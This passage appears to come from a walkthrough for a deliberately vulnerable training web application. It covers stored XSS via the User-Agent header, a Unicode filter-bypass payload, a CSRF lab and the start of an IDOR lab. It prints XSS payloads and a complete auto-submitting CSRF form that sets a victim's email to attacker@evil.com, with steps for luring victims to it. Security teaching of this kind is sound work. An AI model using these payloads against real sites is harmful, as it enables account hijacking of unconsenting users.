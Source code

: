 **Step 2: Modify User-Agent header**
- Change User-Agent to: `<script>alert('Stored XSS')</script>`
- Forward the request

**Step 3: Access admin panel**
- Navigate to `xss/secret/admin_panel.php`
- The stored XSS payload executes when admin views the messages

### 2.3 XSS Filter Bypasses

**XSS1 - Unicode Bypass:**
- Navigate to `xss/XSS Fileters&Bypasses/xss1.php?q=test`
- Filter blocks: `<>'"`
- Bypass payload: `\u003Cimg src=x onerror=alert(0)\u003E`

---

## Lab 3: Cross-Site Request Forgery (CSRF) (csrf/)

**Step 1: Login to the application**
- Navigate to `csrf/login.php`
- Login with credentials: `guest/guest`

**Step 2: Analyze settings page**
- Go to `csrf/settings.php`
- Notice the email change functionality

**Step 3: Create CSRF attack page**
```html
<html>
<body>
<form action="http://target.com/csrf/settings.php" method="POST" id="csrf">
    <input type="hidden" name="nemail" value="attacker@evil.com">
    <input type="hidden" name="csrftoken" value="dummy">
</form>
<script>document.getElementById('csrf').submit();</script>
</body>
</html>
```

**Step 4: Execute the attack**
- Host the HTML file on attacker server
- Trick victim into visiting the page
- Email gets changed without user consent

---

## Lab 4: Insecure Direct Object Reference (IDOR) (idor/)

**Step 1: Login as regular user**
- Navigate to `idor/login.php`
- Login with: `guest/guest`

**Step 2: Analyze the profile page**
- Go to `idor/profile.php`
- Notice comments are displayed with usernames
